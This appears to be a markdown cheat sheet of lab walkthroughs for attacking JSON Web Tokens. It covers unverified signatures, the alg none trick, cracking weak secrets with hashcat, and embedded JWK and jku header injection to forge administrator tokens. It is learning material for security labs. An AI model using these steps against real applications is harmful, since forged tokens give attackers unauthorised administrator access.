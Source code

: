 
# Attacking JWT Methods

## JWT authentication bypass via unverified signature

```bash
"username":"delta",  
## Change This To
"username":"admin",
```

## JWT authentication bypass via flawed signature verification

```bash
Select The Header Part From Inspecter Section In Burp
Decode Base 64
Change alg to none "alg":"none"
Click apply changes
"username":"delta",  
## Change This To
"username":"admin",
Then Remove End/signature part and send request
if fails add . at end then resend
```

## JWT authentication bypass via weak signing key
```bash
Log In With Your Credentials. Copy JWT from cookie
hashcat -a 0 -m 16500 <YOUR-JWT> /path/to/jwt.secrets.list
# Now Hashcat Will Show Us The Cracked Secret
In Burp, go to the JWT Editor Keys tab and click New Symmetric Key. In the dialog, click Generate to generate a new key in JWK format.
Replace the generated value for the k property with the Base64-encoded secret.
Click Ok
Now we have new Signature 
Burp Repeater and switch to the extension-generated JSON Web Token message editor tab. 
In the payload, change the value of the sub claim to administrator
At the bottom of the tab, click Sign, then select the key that you generated in the previous section.
send request DONE!!
```

## JWT authentication bypass via jwk header injection
- JSON WEB KEY sometimes used to embed the correct verification key directly in the token

```bash
    "kty" (Key Type): This parameter specifies the type of key. It can take values like "RSA" for RSA keys, "EC" for elliptic curve keys, or "oct" for symmetric keys.

    "kid" (Key ID): This parameter provides a unique identifier for the key. It helps in key management scenarios where multiple keys are involved.

    "alg" (Algorithm): This parameter indicates the algorithm associated with the key. For example, "RS256" represents the RSA signature algorithm with SHA-256.

    "use" (Key Use): This parameter specifies the purpose of the key, such as "sig" for a key used for signing or "enc" for encryption.

    "n" and "e" (RSA-specific): These parameters represent the modulus and exponent of an RSA public key.

    "crv" and "x"/"y" (Elliptic Curve-specific): These parameters represent the curve type and the coordinates of the public key point on the curve.

    "k" (Symmetric key): This parameter represents the value of the symmetric key.
```

- How to do JWK header injection
 ```
Go to the JWT Editor Keys tab in Burp's main tab bar.
Click New RSA Key.
lick Generate to automatically generate a new key pair, then click OK to save the key.
in JWT  change the value of the sub claim to administrator. 
At the bottom of the JSON Web Token tab, click Attack, then select Embedded JWK. When prompted, select your newly generated RSA key and click OK. 
In the header of the JWT, observe that a jwk parameter has been added containing your public key. 
Send request DONE!!
 ```


## JWT authentication bypass via jku header injection
When the "jku" parameter is present in the JWT header, it indicates that the public keys needed to verify the token's signature can be found at the specified URL. This allows for more efficient key management, as the keys can be rotated or updated independently of the tokens themselves.
```bash
{
  "alg": "RS256",
  "typ": "JWT",
  "jku": "https://example.com/keys.jwks"
}
```

- Solving The Lab

```bash
Go to the JWT Editor Keys Click New RSA Key.  click Generate to automatically generate a new key pair, then click OK to save the key
open exploit.html
add following code inside boy tag



{
    "keys": [

    ]
}

Back on the JWT Editor Keys tab, right-click on the entry for the key that you just generated, then select Copy Public Key as JWK. 
Paste the JWK into the keys array on the exploit server, then store the exploit. The result should look something like this: 
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7",
            "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw"
        }
    ]
}

in the header of the JWT, replace the current value of the kid parameter with the kid of the JWK that you uploaded to the exploit server. 
Add a new jku parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.
{
  "alg": "RS256",
  "typ": "JWT",
  "jku": "https://example.com/keys.jwks"
}

change the value of the sub claim to administrator.
click Sign, then select the RSA key that you generated in the previous section
then click OK. 
DONE!!

```
